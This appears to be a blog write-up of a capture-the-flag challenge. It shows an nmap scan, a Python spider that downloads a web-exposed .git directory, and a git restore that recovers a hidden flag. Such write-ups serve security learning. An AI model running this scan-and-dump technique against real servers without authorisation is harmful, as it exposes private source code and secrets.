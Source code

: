+++
title = "UTS Csec CTF: Missing"
date = 2020-04-12T01:26:00+10:00
lastmod = 2020-04-12T01:26:00+10:00
tags = [
	"ctf",
	"csec"
	]
categories = [
	"hacking",
	"blog"
]
imgs = []
cover = ""  # image show on top
readingTime = true  # show reading time after article date
toc = true
comments = true
justify = false  # text-align: justify;
single = false  # display as a single page, hide navigation on bottom, like as about page.
license = ""  # CC License
draft = true
+++

# Original challenge

[here](https://ctf.utscyber.org/challenges#Missing)

# Beginning

So the description gave us a [link](http://128.199.239.130:8007). No reason not to start here, right? And we got:


![Just Apache](/img/just-apache.png)

Hmmm... Seems a newly set up Apache server, running a Ubuntu machine, without even serving a page. Not quite informative. Nothing in the page source, either :(

# Port scan

Next thing came up to me was scanning the port: 

```bash
nmap -sC -sV -p8007 128.199.239.130
```
![nmap](/img/nmap8007.png)

Here! We found something interesting: a git repository! Let's try pull this repository down.

# Pull the `.git/` directory down

![Git clone fails](/img/git-clone-fails.png)

Uh oh. Seems it doesn't work the normal way. But it should do no harm if we check the [URL](http://128.199.239.130:8007/.git) with our browser.

![.git directory](/img/8007.git.png)

Looking good. The directory is served in its raw structure. This means we can spider everything down in the worst case. So why not make a spider now ;)

Here it goes:

```python spider.py
import requests
from bs4 import BeautifulSoup
import os

baseurl = "http://128.199.239.130:8007/.git"

def scan(rel):
	print("scanning " + rel)
	if rel.startswith('/'):
		directory = '.' + rel

	if not os.path.exists(directory):
		print(directory + " does not exist, creating")
		os.mkdir(directory)

	url = baseurl + rel
	print("sending get request: " + url)
	soup = BeautifulSoup(requests.get(url).text)
	for td in soup.find_all('td'):
		for a in td.find_all('a'):
			href = a.get('href')
			print("href: " + href)
			if href.endswith('/'):
				if a.contents[0] != 'Parent Directory':
					scan(rel + href)
			else:
				open(directory + href, 'wb').write(requests.get(baseurl + rel + href).content)

scan('/')
```

Let's save it as `spider.py` (don't judge this name) in a appropriate directory, because it downloads everything to the PWD. Now let's run this code!

```bash
➜  missing ls
spider.py
➜  missing python3 spider.py 
scanning /
sending get request: http://128.199.239.130:8007/.git/
href: /
href: COMMIT_EDITMSG
href: HEAD
href: Icon
href: ORIG_HEAD
href: config
href: description
href: hooks/
scanning /hooks/
./hooks/ does not exist, creating
sending get request: http://128.199.239.130:8007/.git/hooks/
href: /.git/
href: Icon
... (million lines ommited)
href: tags/
scanning /refs/tags/
./refs/tags/ does not exist, creating
sending get request: http://128.199.239.130:8007/.git/refs/tags/
href: /.git/refs/
href: Icon
➜  missing git:(master) ls
COMMIT_EDITMSG  description  hooks  index  logs     ORIG_HEAD  spider.py
config          HEAD         Icon   info   objects  refs
```

(To clarify, 'missing' is the directory name in my terminal prompt, they were colored in my terminal but not here)

Hooray! Now we got the repository. My zsh even told me we are on `master` branch.

# Working git

First of all, let's see the commit history of course.

![Git log](/img/gitlog.png)

The third commit says 'hide flag'. If it is THE FLAG we are looking for (apprently), then we should check what it has hidden. Let's go checkout the Initial Commit.

![Checkout fatal](/img/checkout-fatal.png)

Hmmm... Didn't go well. But what does it mean? 

Luckily, Google has always been my friend, and I found this [question](https://stackoverflow.com/questions/9262801/fatal-this-operation-must-be-run-in-a-work-tree), and the comments on the answer proved very helpful.

Turns out the `.git/` directory is a hidden directory which `git` creates when you initialize your repository, and where all the commit snapshots are saved. That is, you can restore any file of any version with this directory. But the files you normally work with should be the parent directory of `.git/`.

Then this would be easy. Let what belongs to `.git/` go to `.git/`, and make our 'missing' directory its parent.

![Move .git](/img/move-git.png)

Now everything is normal and familiar again. Let's finish what was to be done.

![Flag retrieved](/img/flag-retrieved.png)